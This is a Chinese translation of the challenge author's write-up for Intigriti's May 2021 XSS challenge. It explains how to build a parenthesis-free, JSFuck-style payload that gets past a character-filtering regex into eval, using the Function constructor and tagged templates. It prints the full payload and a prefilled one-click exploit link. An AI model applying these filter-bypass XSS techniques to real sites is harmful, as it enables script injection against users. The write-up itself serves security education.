




# Intigriti 的 0521 XSS 挑战赛技巧解答和解释——作者@GrumpinouT

> 原文：<https://infosecwriteups.com/solution-and-explanation-of-tips-for-intigritis-0521-xss-challenge-by-grumpinout-7544bad98e59?source=collection_archive---------3----------------------->



挑战页面

本月(2021 年 5 月)Intigriti 的 XSS 挑战赛是我创作的(Inti 做了一些补充)。在这篇文章中，我将解释我对这个挑战的解决方案和给出的提示。

# 侦察

在应用程序中，给出了两个随机数，第一个数加上用户输入的数的和必须产生第二个数。点击提交后，会显示一个进度条，当进度条已满时。用户将收到一条消息。

如果等式是正确的，消息将声明用户不是机器人。否则，用户将被告知他是一个机器人。

在查看了应用程序的代码后，我们看到功能实际上存储在页面`captcha.php`上，并通过 iframe 加载。



含有 captcha.php 的 Iframe

如果我们去看看 captcha.php，我们可以看到用户的输入将与两个随机数一起被添加到`operation`变量中。之后，用下面的 regex `/[a-df-z<>()!\\='"]/gi`进行检查，并有一个注释来解释为什么字母`e`是允许的。

一旦输入通过了正则表达式，它将在`eval`函数中执行。所以我们要做的就是找到一个正则表达式允许的有效载荷，我们解决了这个挑战。



带有 regex 和 eval 的 JavaScript 代码

# 正在构建“alert(document.domain)”

这一部分我不会讲太多细节，因为这会使这篇文章很长，但是解决方案是基于这样一个事实，即字符串可以用一种类似于 [JSFuck](https://github.com/aemkei/jsfuck) 的方式来检索所需的字符。我用了三个字符串来得到最终的有效载荷。第一个是`"undefined"`，如下图，很容易检索到。

```
[[][0]+[]][0][2] = "undefined"
```

`[][0]`给了我们`undefined`，但不是作为字符串，所以我们还不能检索必要的字符。要将它作为一个字符串获取，我们需要将`[]`添加到它，将整个部分放入一个数组中，并使用索引 0 再次检索它。

接下来，使用之前检索到的字母，我们可以访问一个新的字符串，这使我们可以访问更多的字符。出于简单性和可读性，我没有对检索这个字符串所需的字符进行编码。您可能不知道这一点，但是在 JavaScript 中可以通过两种方式访问对象的属性。作为一个例子，我将使用文档对象。要检索域参数，可以像这样做`document.domain`，或者像这样做`document["domain"]`，解决方案需要最后一个技巧。下面的`find`属性是访问一个空数组。使用了与 undefined 相同的概念来检索字符串。

```
[[]["find"]+[]][0] = "function find() { [native code] }"
```

有了这两个字符串，我们几乎拥有了所有需要的字符，但我们还需要更多。为此，需要字母`e`。



表单的 HTML

正如你在上面的图片中看到的，进度条有 id `e`。html 元素可以用它的 id 来访问，如下所示。


使用 id 访问进度条

有了这些知识，我们可以重新获得一个新的字符串，它包含了更多我们需要的字符。

```
[e+1][0] = "[object HTMLProgressElement]1"
```

如果我们现在对`alert(document.domain)`进行编码，我们会得到下面的有效负载(尽管正则表达式不允许使用单引号和双引号，但是我们可以用反斜线(`)绕过它，所以如果我们需要将`.`和`e`作为一个字符串，就不需要对它们进行编码。

```
[[][[[][[]]+[]][+[]][4]+[[][[]]+[]][+[]][5]+[[][[]]+[]][+[]][1]+[[][[]]+[]][+[]][2]]+[]][0][20]+[e+1][0][21]+`e`+[e+1][0][16]+[e+1][0][6]+[[][[e+1[0]][0][32]+[e+1[0]][0][33]+[e+1[0]][0][34]+[e+1[0]][0][36]]+[]][0][13]+[[][0]+[]][0][2]+[e+1][0][1]+[e+1][0][5]+[e+1[0]][0][28]+[e+1][0][23]+[e+1][0][4]+[e+1][0][25]+[e+1][0][26]+`.`+[[][0]+[]][0][2]+[e+1][0][1]+[e+1][0][23]+[[][[[][[]]+[]][+[]][4]+[[][[]]+[]][+[]][5]+[[][[]]+[]][+[]][1]+[[][[]]+[]][+[]][2]]+[]][0][20]+[[][0]+[]][0][5]+[e+1][0][25]+[[][[e+1[0]][0][32]+[e+1[0]][0][33]+[e+1[0]][0][34]+[e+1[0]][0][36]]+[]][0][14]
```

如果我们在挑战页面上尝试，没有什么有趣的事情发生…

这是因为如果有效载荷被执行，我们只是得到字符串`"alert(document.domain)"`作为返回，而不是实际的函数。

# 执行警报

为了执行警报字符串，我们需要一个函数构造器。这个函数返回一个匿名函数，其中的参数是构造函数中的前 n 个参数，主体是最后一个。然后，可以通过在末尾添加括号(由于正则表达式的原因，我们不能使用括号)来调用匿名函数，如下所示:

```
Function(“param1”, “alert()”)()
```

通过访问一个空数组的属性，我们可以像获取 find 函数一样获取这个函数。首先我们获得数组的构造函数属性，它返回创建对象实例的函数，在本例中是`Array()`。这个实例是由`Function()`创建的，可以通过再次调用构造函数属性来访问。我们现在可以用反斜线来代替括号。

```
[]["constructor"]["constructor"]`"alert(document.domain)"```
```

但是如果我们执行这个函数，我们会得到一个未定义的返回，并且不会触发警报。如果我们检查构造函数的输出，而不调用它(读:删除最后两个反勾号)，那么我们得到下面的输出:

```
ƒ anonymous(
) {
"alert(document.domain)"
}
```

如您所见，警报被放在引号中，因此不会通过调用函数来执行。

为了解决这个问题，我们可以将字符串放在模板文字占位符中。目前，我们正在使用带标签的模板。

当您将字符串放入占位符中时，您仍然会在执行时收到一个关于逗号的错误。


构造函数出错

如果我们看一下[标记模板](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)的 Mozilla 文档，我们注意到如果我们有下面的模板文字:

```
`string1 ${"alert(document.domain)"} string2`
```

它被传递给函数构造函数，如下所示:

```
Function([“string1”, “string2”], “alert(document.domain)”)
```

如前所述，第一个参数是匿名函数的参数，由于某种原因，当数组中的值从数组中移除并像这样传递时，前面的代码做了完全相同的事情(见下面的示例)。

```
Function(“string1”, “string2”, “alert(document.domain)”)
```

当模板文字不包含任何字符串时，一个包含两个空字符串的数组将被传递给`Function()`。在这种情况下，输出应该是:

```
ƒ anonymous(,
) {
alert()
}
```

由于该函数中有两个空字符串用作参数，因此引发了错误。解决方法是在占位符前像这样添加一个字符，这样输出就不会抛出错误，看起来像这样:

```
ƒ anonymous($,
) {
alert()
}
```

# 最终有效载荷

最终的有效载荷如下所示:

```
[][[e+1][0][5]+[e+1][0][1]+[e+1][0][25]+[e+1][0][19]+[e+1][0][6]+[e+1][0][16]+[e+1[0]][0][28]+[e+1][0][5]+[e+1][0][6]+[e+1][0][1]+[e+1][0][16]][[e+1][0][5]+[e+1][0][1]+[e+1][0][25]+[e+1][0][19]+[e+1][0][6]+[e+1][0][16]+[e+1[0]][0][28]+[e+1][0][5]+[e+1][0][6]+[e+1][0][1]+[e+1][0][16]]`$${[[][[[][[]]+[]][+[]][4]+[[][[]]+[]][+[]][5]+[[][[]]+[]][+[]][1]+[[][[]]+[]][+[]][2]]+[]][0][20]+[e+1][0][21]+`e`+[e+1][0][16]+[e+1][0][6]+[[][[e+1[0]][0][32]+[e+1[0]][0][33]+[e+1[0]][0][34]+[e+1[0]][0][36]]+[]][0][13]+[[][0]+[]][0][2]+[e+1][0][1]+[e+1][0][5]+[e+1[0]][0][28]+[e+1][0][23]+[e+1][0][4]+[e+1][0][25]+[e+1][0][26]+`.`+[[][0]+[]][0][2]+[e+1][0][1]+[e+1][0][23]+[[][[[][[]]+[]][+[]][4]+[[][[]]+[]][+[]][5]+[[][[]]+[]][+[]][1]+[[][[]]+[]][+[]][2]]+[]][0][20]+[[][0]+[]][0][5]+[e+1][0][25]+[[][[e+1[0]][0][32]+[e+1[0]][0][33]+[e+1[0]][0][34]+[e+1[0]][0][36]]+[]][0][14]}```
```

翻译过来就是:

```
[]["constructor"]["constructor"]`${"alert(document.domain)"}```
```

# 不断升级的自我 XSS

为了升级自我 XSS，需要做一点猜测工作，但这应该没那么难。有效负载可以通过 GET 或 POST 请求在`b`或`c`参数中发送(这些参数是受这些参数影响的元素的 id)。有效载荷应该被编码，因为否则+将被作为空格处理。

# 无线一键通

第一步:[点击此处](https://challenge-0521.intigriti.io/captcha.php?c=%5B%5D%5B%5Be%2B1%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B25%5D%2B%5Be%2B1%5D%5B0%5D%5B19%5D%2B%5Be%2B1%5D%5B0%5D%5B6%5D%2B%5Be%2B1%5D%5B0%5D%5B16%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B28%5D%2B%5Be%2B1%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5D%5B0%5D%5B6%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B16%5D%5D%5B%5Be%2B1%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B25%5D%2B%5Be%2B1%5D%5B0%5D%5B19%5D%2B%5Be%2B1%5D%5B0%5D%5B6%5D%2B%5Be%2B1%5D%5B0%5D%5B16%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B28%5D%2B%5Be%2B1%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5D%5B0%5D%5B6%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B16%5D%5D%60%24%24%7B%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B4%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B5%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B1%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B2%5D%5D%2B%5B%5D%5D%5B0%5D%5B20%5D%2B%5Be%2B1%5D%5B0%5D%5B21%5D%2B%60e%60%2B%5Be%2B1%5D%5B0%5D%5B16%5D%2B%5Be%2B1%5D%5B0%5D%5B6%5D%2B%5B%5B%5D%5B%5Be%2B1%5B0%5D%5D%5B0%5D%5B32%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B33%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B34%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B36%5D%5D%2B%5B%5D%5D%5B0%5D%5B13%5D%2B%5B%5B%5D%5B0%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B28%5D%2B%5Be%2B1%5D%5B0%5D%5B23%5D%2B%5Be%2B1%5D%5B0%5D%5B4%5D%2B%5Be%2B1%5D%5B0%5D%5B25%5D%2B%5Be%2B1%5D%5B0%5D%5B26%5D%2B%60.%60%2B%5B%5B%5D%5B0%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B23%5D%2B%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B4%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B5%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B1%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B2%5D%5D%2B%5B%5D%5D%5B0%5D%5B20%5D%2B%5B%5B%5D%5B0%5D%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5D%5B0%5D%5B25%5D%2B%5B%5B%5D%5B%5Be%2B1%5B0%5D%5D%5B0%5D%5B32%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B33%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B34%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B36%5D%5D%2B%5B%5D%5D%5B0%5D%5B14%5D%7D%60%60%60)打开网页，输入栏
预填有效载荷第二步:点击提交

# 解释技巧

## 提示 1

这是对接收必要字符所需的字母`e`的引用。如果你点击了视频，你会听到蕾哈娜唱“e e e e e e…

## 提示 2

这里暗示了有效载荷中使用的方括号和花括号。

## 提示 3

由于 Travis 以前在建筑行业工作过，我认为将他包括在技巧中是很好的，单词“construction”已经改为“constructor ”,作为对执行代码所必需的函数构造函数的引用。

## 提示 4

最后一个技巧是提示通过索引检索字符的方式。

## 提示 5

实际上并没有发布提示 5，但是如果公告推文收到了 500 个赞，下面的提示就会被发布:

> 一个捉人游戏是如何运作的？

作为对用于绕过括号限制的标记函数的引用。

# 这项挑战的灵感

由于我从未见过使用 JSFuck 的 XSS 挑战赛，所以我想在挑战赛中加入一些类似的东西，这样参与者就可以了解其背后的想法。当然，复制粘贴一个 JSFuck 有效载荷太容易了。我在网上做了一些研究，发现了一篇我以前读过的文章。

这篇文章被 [@garethheyes](https://twitter.com/garethheyes) 称为“[执行无括号](https://portswigger.net/research/executing-non-alphanumeric-javascript-without-parenthesis)的非字母数字 JavaScript”。

我开始研究文章中使用的有效负载，以找出哪些字符可以被删除/替换为其他字符。我从去掉感叹号开始，但是后来很多技巧都不再可行了，因为没有感叹号带给我们的布尔值，就没有办法得到数字。为了弥补这个限制，我决定在有效载荷中允许数字。现在只剩下三个字符需要得到(`r`、`m`和`s`)。我选择使用进度条，这是我发现的唯一一个可以访问这三个元素的元素。我知道我可以使用一个像 iframe 这样的元素，它只提供对`r`和`m`的访问，这样就可以用`e["outerHTML"]`检索 s，返回如下内容:

```
"<iframe src=\"./captcha.php\" width=\"450\" height=\"90\" frameborder=\"0\" id=\"e\"></iframe>"
```

但是我不想过多地限制用户。我只是想让他们理解以下概念:

*   使用有限数量的字符执行 JavaScript
*   使用函数构造函数
*   执行不带括号的函数
*   了解标记模板

尽管只理解其中一些要点就能找到解决方案是可能的，但参与者了解到这些概念的存在，如果他们愿意，可以对其进行更多的研究。

例如，有人可以通过复制 G. Heyes 的方法，在不知道函数构造函数如何工作的情况下找到解决方案。我就是这样开始的，但是因为这个挑战，我开始研究所有的概念是如何工作的。

# 最后的话

感谢大家的参与和良好的反馈！我真的很喜欢看你所有的报告！

也非常感谢所有填写我的调查的人！这对我的论文很有帮助。

我从这次挑战中学到了一些东西:

*   首先，在创建这个挑战的过程中，我学到了很多这个挑战中用到的概念。
*   不是每个人都喜欢在挑战中猜测事情(参考参数`b`和`c`)
*   没有用户交互的解决方案会更好